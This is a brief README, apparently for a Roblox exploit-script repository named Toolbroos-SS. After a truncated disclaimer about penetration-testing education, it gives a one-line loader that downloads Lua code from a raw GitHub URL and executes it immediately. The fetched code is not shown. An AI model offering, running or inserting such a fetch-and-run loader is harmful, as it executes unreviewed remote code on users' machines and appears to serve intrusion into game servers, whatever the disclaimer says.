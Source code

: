 # Toolbroos-SS
⚠️ This repository contains materials for penetration testing education only. All demonstrations must occur in isolated environments with written permission from the system own

--script--

loadstring(game:HttpGet("https://raw.githubusercontent.com/tooolbroos/Toolbroos-SS/main/toolbroos_SS.lua"))()
